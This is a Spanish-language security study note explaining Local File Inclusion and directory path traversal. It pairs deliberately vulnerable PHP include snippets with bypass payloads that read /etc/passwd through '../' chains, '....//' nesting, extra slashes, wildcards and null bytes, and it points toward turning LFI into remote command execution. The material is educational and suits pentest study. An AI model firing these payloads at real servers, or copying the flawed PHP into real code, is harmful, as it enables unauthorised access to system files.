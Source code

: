 # LFI (Local File Inclusion)

***

* Tags: #OWASP\_TOP\_10 #vulnerabilidad #hacking #LFI

***

## Definición

> **LFI (local file inclusion)** es una vulnerabilidad de seguridad en aplicaciones web que permite a un atacante manipular la entrada de archivos en una aplicación para cargar y ejecutar archivos arbitrarios en el servidor. Esto puede llevar a la exposición de información confidencial, la ejecución de código malicioso y potencialmente comprometer todo el sistema.
>
> Se produce cuando una aplicación web no valida adecuadamente las entradas de usuario, permitiendo **acceder a archivos locales**.
>
> Se suele utilizar al abusar de parámetros de entrada en la aplicación web. Los **parámetros de entrada** son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Se pueden manipular dichos **parámetros de entrada** para incluir rutas de archivo local en la solicitud, permitiendo acceder a archivos en el servidor web. Esta técnica se conoce como **Directory Path Traversal** y se utiliza comúnmente en ataques de LFI.
>
> Empleando **Directory Path Traversal** el atacante utiliza caracteres especiales y caracteres de escape en los parámetros de entrada para navegar a través de los directorios del servidor web y acceder a archivos en ubicaciones sensibles del sistema. Por ejemplo, se podría incluir "../" en el parámetro de entrada para navegar en el directorio superior en el que se encuentre actualmente.

***

## Explotación

A la hora de representar el contenido en la página web, debemos fijarnos en la **URL**, ya que puede ser que la subpágina en la que estemos esté siendo pasada como un parámetro en la misma **URL**. Acaban de la siguiente manera:

```
<URL>?filename=ejemplo
```

Por lo que sabemos que existe el parámetro _filename_ del que podemos intentar abusar.

Nos podemos enfrentar a distintos escenarios, en los que podemos emplear distintos vectores de ataque. Dependiendo de la seguridad de del código, podremos utilizar unos u otros. En todos ellos podemos modificar simplemente la URL, o de manera más cómoda podemos modificar las peticiones desde \[\[Burpsuite]].

En el caso en el que no tiene **ninguna precaución**, podemos simplemente probar a que se muestre un archivo que queramos, por ejemplo **/etc/passwd**. Nos enfrentamos a algo parecido a lo siguiente:

```php
<?php
	$filename = $_GET['filename'];
	include($filename);
?>
```

Por lo que si modificamos la url de manera que pidamos **cualquier archivo** del servidor, podremos acceder a el mismo:

```
?filename=/etc/passwd
```

Suponiendo que el desarrollador ha intentado mejorar el código, puede ser que te obligue a mostrar solo los archivos en un directorio específico, como **/var/www/html**, pero podemos burlar la seguridad utilizando "../" para acceder a archivos en directorios superiores. Nos enfrentamos a algo parecido a lo siguiente:

```php
<?php
	$filename = $_GET['filename'];
	include("/var/www/html" . $filename);   #El punto sirve para concatenar cadenas en php
?>
```

Por lo que modificando el parámetro, podemos pedirle **cualquier archivo** incluyendo una secuencia de "../" en la petición:

```
?filename=../../../../../../../../../../etc/passwd
```

Puede darse el caso, el que el desarrollador intente solucionar el problema anterior, sustituyendo cada ocurrencia de "../" por nada, de manera que desaparecerían dichas ocurrencias:

```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename)
	include("/var/www/html" . $filename);   
?>
```

Pero el problema con esta "solución" es que podemos inyectar mas ../ dentro de las cadenas, para que cuando se eliminen queden otros ../ y puedas seguir accedeindo a **cualquier archivo**:

```
?filename=....//....//....//....//....//....//....//....//....//....//etc/passwd #Cuando se eliminan los ../ quedan los exteriores
```

Otro escenario puede ser que se utilicen expresiones regulares con **preg\_match** para indicar que no se quieren mostrar algunos archivos en específico, por ejemplo el /etc/passwd:

```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename)

	if(preg_match("/\/etc\/passwd/", $filename) === 1){
		echo "\n No puedes ver ese archivo\n"
	} else {
		include("/var/www/html" . $filename);   
	}
?>
```

Pero podemos seguir accediendo al mismo archivo si ponemos alguna barra más en la petición, o muchas barras y algún punto en medio:

```s
?filename=....//....//....//....//....//....//....//....//....//....//etc///.///passwd
?filename=....//....//....//....//....//....//....//....//....//....//etc/////./passwd
?filename=....//....//....//....//....//....//....//....//....//....//etc/./////passwd
?filename=....//....//....//....//....//....//....//....//....//....//etc/./././././passwd
```

Si fuera un comando ejecutado a nivel de sistema, podemos hacer uso de "?", de manera que no coincide dicha solicitud con la que está restringida:

```
?filename=....//....//....//....//....//....//....//....//....//....//e??/p?ssw?
```

En versiones anteriores a la 5.3 de **php**, si nos obligan a que un archivo tenga una configuración dada, podemos burlar dicha capa de seguridad añadiendo un **Null byte**, de manera que no es necesario que el archivo que queremos observar tenga dicha extensión. Nos podríamos enfrentar a algo parecido a lo siguiente:

```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename)
	include("/var/www/html" . $filename . ".php");   
?>
```

De manera que si incluimos el **Null byte** podemos seguir accediendo al archivo:

```
?filename=....//....//....//....//....//....//....//....//....//....//etc/passwd%00 
```

Siguiendo con versiones antiguas, puede ser que en el propio código se esté comprobando los últimos x caracteres de la petición, pero podemos burlar este método de seguridad añadiendo un "/." al final de la petición:

```
?filename=....//....//....//....//....//....//....//....//....//....//etc/passwd/.
```

Puede ocurrir que un **LFI**, pueda desencadenar en un \[\[RCE (Remote Command Execution)]], de manera que podemos ejecutar comandos en la máquina víctima como nos plazca, con la posibilidad de poder obtener una \[\[Reverse shell]]. Para ello, haremos uso de los \[\[Wrappers]], o del \[\[Log Poisoning (LFI -- RCE)]].
